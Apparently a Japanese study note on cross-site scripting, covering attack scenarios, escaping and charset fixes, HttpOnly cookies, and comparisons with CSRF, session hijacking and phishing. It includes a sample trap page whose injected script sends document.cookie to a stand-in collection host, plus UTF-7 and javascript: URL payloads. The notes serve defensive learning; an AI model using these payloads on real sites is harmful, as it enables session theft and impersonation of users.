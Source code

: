 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される
- 画面を書き換えられる

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- ターゲット が罠サイト内に表示された脆弱なサイトをクリックすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

例えば、以下のようなコードで XSS 攻撃が行われる。

```html
<html>
  <body>
    激安商品情報
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

現在では HttpOnly 属性を付与することが増えたため、クッキー値を XSS 攻撃によって盗まれるケースは減ってきた。

しかし、XSS 攻撃による脅威は他にもあり、例えばクレジットカード情報がセキュリティコードも含めて流出することもある。

例えば、以下のような手口で行われる。

- 攻撃者が偽のクレジットカード情報入力画面を用意する
- 攻撃者がクレジットカード情報入力画面に悪意のあるスクリプトを埋め込む
- ターゲットがクレジットカード情報を入力し、入力画面から遷移しようとした時にクレジットカード情報が攻撃者の元へ送信される（XSS 攻撃成立）
- 偽の入力画面から攻撃者が用意した決済エラー画面に遷移する
- 偽の決済エラー画面から正規のクレジットカード情報入力画面に遷移する
- 正規の決済を行う
- 一連のフローによって攻撃されたことに気づかれにくくなる

セキュリティコードは割賦販売法によって企業が保存することは禁止されている。しかし、XSS 攻撃はブラウザ上で行われるため、サーバーに保存した値ではなくターゲットが画面に入力した値が盗まれてしまう。

### XSS の根本的解決と保険的対策

#### 根本的解決

厳密には HTML テキストの入力を許可しない場合と HTML テキストの入力を許可する場合に分けられるが、多くの Web アプリケーションでは HTML テキストの入力を許可しないものを前提とする。（HTML テキストの入力を許可しうる Web アプリケーションの例として、ブログや掲示板など自由度の高い入力仕様があるものが挙げられる。）

- ウェブページに出力する全ての要素に対して、エスケープ処理を施す

  - ウェブページの表示に影響する特別な記号文字（「<」、「>」、「&」等）を、HTML エンティティ（「&lt;」、「&gt;」、「&amp;」等）に置換する
  - HTML タグを出力する場合は、その属性値を必ずダブルクォートで括り、それを「&quot;」にエスケープする
  - JavaScript の document.write メソッドや innerHTML プロパティ等を使用する場合も同様のエスケープ処理を行う

- HTTP レスポンスヘッダの Content-Type フィールドに文字コード（charset）を指定する

  - 文字コードの指定を省略すると、ブラウザが独自にエンコードするが、その挙動を悪用して不正なスクリプトを埋め込むことができる
  - 例えば、一部のブラウザでは「+ADw-script+AD4-alert(+ACI-test+ACI-)+ADsAPA-/script+AD4-」を UTF-7 でエンコードし、「<script>alert('test');</script>」が実行されてしまう（XSS 攻撃）
  - エスケープ処理を行っていても、ブラウザの文字エンコーディングと Web アプリケーションが想定している文字エンコーディングが異なると突破される可能性がある
  - エスケープ処理と合わせ、Web アプリケーションが想定している文字エンコーディングを指定することは必須

- URL を出力するときは、「http://」や 「https://」で始まる URL のみを許可する

  - URL には「javascript:」の形式で始まるものもあり、ウェブページに出力するリンク先や画像の URL が、外部からの入力に依存する形で動的に生成できると XSS 脆弱性が発生する
  - 利用者から入力されたリンク先の URL を「&lt;a href="リンク先の URL">」の形式でウェブページに出力する場合、その URL を「javascript:」で始めることで不正なスクリプトを埋め込める
  - 例えば、` <a href="javascript:alert(document.cookie)"></a>`のようなスクリプトを入れるとクッキー値が表示される

- <script>...</script> 要素の内容を動的に生成しない

  - 外部からの入力に依存して生成されると XSS 脆弱性をうむ
  - 危険なスクリプトを区別するのは非現実的

- スタイルシートを任意のサイトから取り込めるようにしない
  - 生成するウェブページに XSS 攻撃ができるスクリプトが埋め込まれてしまう可能性がある
  - 危険なスクリプトを区別するのは非現実的

#### 保険的対策

基本的には根本的解決を図るべきだが、XSS の対策箇所が多いため、漏れが生じる可能性がある。

以下のような保険的対策をとることで、万が一漏れが生じていた場合に XSS の被害を軽減できる場合がある。

- 入力値に対してバリデーションをかける

  - 英数字などのみを入力可能なフォームでは有効
  - 幅広い文字種入力できるような仕様ではこの対策は取れない
  - 入力値の確認処理を通過した後の文字列の演算結果がスクリプト文字列を形成してしまうプログラムになっている可能性もあるため、あくまで保険にすぎない

- クッキーに HttpOnly 属性を付与する

  - JavaScript からのクッキー読み出しができなくなる
  - サーバー側のセッションを持続させるクッキーは JavaScript が利用する必要はないので、 HttpOnly 属性をつける
  - しかし、クッキーを盗まれなくなるにすぎないため、これだけでは XSS による他の脅威は残ったままであることに注意が必要

### 他の攻撃との比較

#### CSRF との違い

CSRF は利用者を識別しないページにおいて、悪意のあるリクエストを送り、重要な処理（退会・決済・パスワード変更など）を行う攻撃である。
XSS がブラウザ上で実行され、ブラウザ上でできることであれば何でもできるのに対し、CSRF はリクエストに対するサーバー側の処理を悪用するため、サーバー側で用意された処理に限定される。

#### セッションハイジャックとの違い

セッションハイジャックはセッション ID を悪用してターゲットに成りすまし、不正な行動や情報の取得を行う攻撃である。
XSS でセッション ID を取得し、セッションハイジャックへ連鎖するというつながりがある。セッション ID は XSS などで盗み出すほか、セッション ID を推測したり、クッキーを書き換えることでセッション ID を強制するなど、セッションハイジャックに至る方法は複数存在する。
セッションハイジャックの対策はセッション管理機構を自前で用意せず信頼度の高いものを使う、クッキーにセッションIDを保存した上で認証後にセッションIDを変更する、認証前にはセッション変数に機密情報を保持しないなどが挙げられる。

#### フィッシングとの違い

XSS 攻撃によって偽画面が表示されたり遷移したりすることもあるが、フィッシングとは異なる。

フィッシングは Web アプリケーション自体に脆弱性がなくても発生し、利用者側で注意すべきもの（運営側は「当サイトをかたり情報を抜き取ろうとしているケースが増加しています」などの注意喚起をすることぐらいしかできない）である。

一方で、XSS は Web アプリケーション自体に脆弱性があるために発生するものであり、利用者が対策することは不可能か極めて困難であるという違いがある。

## 参考

- 安全な Web アプリケーションの作り方 第 2 版 徳丸浩
- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)
- [HTTP Cookie の使用](https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies)
- [クレジットカード情報漏洩の手口の動向～なぜ保存禁止のセキュリティコードまで漏洩するのか～](https://youtu.be/fXVasf_Kyhs?si=Ukb-05cmszmKX9BT)
